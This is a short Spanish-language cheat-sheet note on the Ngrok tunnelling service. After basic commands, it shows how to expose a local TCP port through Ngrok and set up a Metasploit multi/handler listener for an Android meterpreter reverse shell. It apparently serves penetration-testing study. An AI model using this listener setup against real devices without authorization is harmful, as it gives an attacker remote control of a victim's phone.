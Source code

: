 # Ngrok

Tags: #Ngrok

[Ngrok](https://ngrok.com/) es un servicio que nos permite crear nuestro servidor local en un subdominio para poder visualizarlo fuera de la LAN, a través de Internet.

## Comandos 

```bash 
❯ ngrok help                   # Panel de ayuda 
❯ ngrok http 80                # Se pulica una web de local a publica
```

```bash 
# Usar Ngrok para recibir una 'ReverShell' desde una app

❯ ngrok tcp 4646               # Para abrir y recibir una conexion TCP (Te muestra el dominio publico y su puerto) que a su vez le esta haciendo un 'PortForwarding' a el puerto local '4646' de nuestra maquina


❯ msfconsole                   # Metasploit para recibir la conexion local en el puerto 4646
	❯ use exploit/multi/handler
	❯ set payload android/meterpreter/reverse_tcp 
	❯ set LHOST 0.0.0.0
	❯ set LPORT 4646
	❯ exploit
```